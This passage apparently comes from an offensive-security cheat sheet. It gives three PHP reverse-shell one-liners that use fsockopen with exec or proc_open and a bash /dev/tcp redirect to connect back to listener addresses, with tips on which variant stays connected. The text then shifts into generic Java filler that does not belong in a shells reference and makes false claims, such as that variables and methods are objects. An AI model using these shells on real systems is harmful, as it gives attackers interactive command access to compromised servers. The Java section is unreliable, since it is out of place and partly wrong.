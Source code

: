 ```php
        echo 'Sorry, there was an error uploading your file.';
    }
}
?>
```
```php
// Using 'exec' is the most common method, but assumes that the file descriptor will be 3.
// Using this method may lead to instances where the connection reaches out to the listener and then closes.
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

// Using 'proc_open' makes no assumptions about what the file descriptor will be.
// See https://security.stackexchange.com/a/198944 for more information
<?php $sock=fsockopen("10.0.0.1",1234);$proc=proc_open("/bin/sh -i",array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>

<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.8/4444 0>&1'"); ?>
```
## Java

### Introduction

Java is a widely used programming language that is known for its versatility and portability. It is commonly used for developing various types of applications, including web, desktop, and mobile applications. In this section, we will explore some key concepts and techniques related to Java programming.

### Key Concepts

#### Object-Oriented Programming (OOP)

Java is an object-oriented programming language, which means that it is based on the concept of objects. Objects are instances of classes, which are the blueprints for creating objects. In Java, everything is an object, including variables, methods, and even the main program itself.

#### Syntax and Structure

Java has a strict syntax and structure that must be followed in order for the code to compile and run correctly. The code is organized into classes, which contain methods and variables. Each class is defined in a separate file with the same name as the class. The main method is the entry point of a Java program and is where the program starts executing.

#### Memory Management

Java uses automatic memory management, which means that the programmer does not have to explicitly allocate and deallocate memory. Instead, Java has a garbage collector that automatically frees up memory when it is no longer needed. This helps to prevent memory leaks and makes Java programs more robust and reliable.

### Tools and Resources
